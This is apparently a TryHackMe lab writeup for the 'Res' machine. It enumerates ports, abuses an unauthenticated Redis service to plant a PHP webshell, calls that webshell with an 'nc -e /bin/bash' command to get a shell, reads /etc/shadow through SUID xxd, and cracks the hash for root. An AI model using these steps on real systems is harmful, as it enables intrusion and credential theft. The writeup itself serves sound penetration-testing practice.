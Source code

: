 # Res - Tryhackme Writeup

Res is a vulnerable machine on TryHackMe. Though this machine, I was introduced to Redis (Remote Dictionary Server). It is the most popular key:value store for use as database, cache or queue. Redis is totally insecure to let it be exposed over network. Redis does not have access control implementation and also it does not support encryption.

# Walkthourgh  - Table of Contents

- [Reconnaissance](#Reconnaissance)
- [Vulnerability Identification](#Vulnerability-Identification)
- [Exploitation](#Exploitation)
- [Post-Exploitation](#Post-Exploitation)

*P.S. In my walkthrough, I have two different IP's for Res vulnerable machine. When I was working through this activity, the time on the vulnerable machine expired and I had to restart it. Hence two IPs (10.10.131.41 and 10.10.47.158).*

## Reconnaissance

Nmap scan to find out the open ports and services

```nmap -sV  -sC -p- 10.10.131.41```

[Nmap screenshot](images/nmap_scan)

From the results we see that we have an Apache web server running on port 80 and Redis 6.0.7  on port 6379.

## Vulnerability Identification

1. Port 80 running Apache web server

Visiting the web application on http://10.10.131.41:80, displayed a standard Apache landing page. Nothing was revealed by examining the source code

[Web Application on Port 80](/images/web_application)

Next I ran a directory scan using Dirbuster to look for any hidden directories or files. but no hidden directories was found.

[web directory enumeration screenshot](/images/dirbuster)

Moving on to next open port 6379 and enumerating the Redis service.

2. Port 6379 running Redis 6.0.7

After researching on Redis, I found out following issues that could be exploited.
* By default Redis can be accessed without credentials
* Using Redis we could write a webshell, if we know the directory path of the web application.

To access Redis on 10.10.131.41, I installed redis-tools on my kali machine

```sudo apt-get install redis-tools```

[redis_tools installation screenshot](/images/redis_tools)

[redis connect screenshot](/images/connect_redis)

[redis info screenshot](/images/info_redis)

Checking the webpage, I found that it works.

[Webshell execution screenshot](/images/webshell_execution)

Make a netcat connection to the attacker IP

```10.10.131.41/shell.php?c=nc -e /bin/bash -lnvp 8888```

[access screenshot](/images/user)

###Privilage Escalation
[suid screenshot](/images/xxd_0)
[xxd screenshot](/images/xxd)

local user password hash from /etc/shadow file
[password hash screenshot](/images/shadow)

John the ripper to crack the password
[password cracked screenshot](/images/john)

Root access
[sudo screenshot](/images/root_access)







